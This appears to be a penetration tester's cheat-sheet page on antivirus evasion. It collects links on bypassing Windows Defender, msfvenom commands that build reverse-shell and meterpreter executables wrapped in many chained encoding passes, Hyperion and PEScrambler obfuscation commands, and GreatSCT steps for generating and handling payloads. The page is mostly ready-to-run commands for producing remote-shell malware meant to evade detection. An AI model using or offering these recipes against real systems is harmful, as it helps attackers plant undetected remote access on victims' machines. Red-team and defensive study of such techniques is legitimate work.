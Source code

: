 # AV Evasion

* [https://hacker.house/lab/windows-defender-bypassing-for-meterpreter/](https://hacker.house/lab/windows-defender-bypassing-for-meterpreter/)
* [https://codeby.net/threads/meterpreter-snova-v-dele-100-fud-with-metasploit-5.66730/](https://codeby.net/threads/meterpreter-snova-v-dele-100-fud-with-metasploit-5.66730/)
* [https://github.com/phackt/stager.dll](https://github.com/phackt/stager.dll)
* [https://hausec.com/2019/02/09/suck-it-windows-defender/](https://hausec.com/2019/02/09/suck-it-windows-defender/)
* [https://medium.com/securebit/bypassing-av-through-metasploit-loader-32-bit-6d62930151ad](https://medium.com/securebit/bypassing-av-through-metasploit-loader-32-bit-6d62930151ad)
* [https://medium.com/securebit/bypassing-av-through-metasploit-loader-64-bit-9abe55e3e0c8](https://medium.com/securebit/bypassing-av-through-metasploit-loader-64-bit-9abe55e3e0c8)
* [https://xakep.ru/2020/12/23/shikata-ga-nai/](https://xakep.ru/2020/12/23/shikata-ga-nai/)
* [https://infosecwriteups.com/evade-avs-edr-with-shellcode-injection-159dde4dba1a?gi=84db9a8c5c5f](https://infosecwriteups.com/evade-avs-edr-with-shellcode-injection-159dde4dba1a?gi=84db9a8c5c5f)

## msfvenom

```text
$ msfvenom -p windows/shell_reverse_tcp LHOST=127.0.0.1 LPORT=1337 -a x86 --platform win -e x86/shikata_ga_nai -i 3 -f exe -o rev.exe
$ msfvenom -p windows/meterpreter/reverse_tcp LHOST=127.0.0.1 LPORT=1337 -e x86/shikata_ga_nai -i 9 -f raw | msfvenom --platform windows -a x86 -e x86/countdown -i 8 -f raw | msfvenom -a x86 --platform windows -e x86/shikata_ga_nai -i 11 -f raw | msfvenom -a x86 --platform windows -e x86/countdown -i 6 -f raw | msfvenom -a x86 --platform windows -e x86/shikata_ga_nai -i 7 -k -f exe -o met.exe
```

## Veil-Evasion

Hyperion + Pescramble

```text
$ wine hyperion.exe input.exe output.exe
$ wine PEScrambler.exe -i input.exe -o output.exe
```

## Shelter

* [https://www.shellterproject.com/](https://www.shellterproject.com/)

## GreatSCT

Install and generate a payload:

```text
$ git clone https://github.com/GreatSCT/GreatSCT ~/tools/GreatSCT
$ cd ~/tools/GreatSCT/setup
$ ./setup.sh
$ cd .. && ./GreatSCT.py
...generate a payload...
$ ls -la /usr/share/greatsct-output/handlers/payload.{rc,xml}

$ msfconsole -r /usr/share/greatsct-output/handlers/payload.rc
```
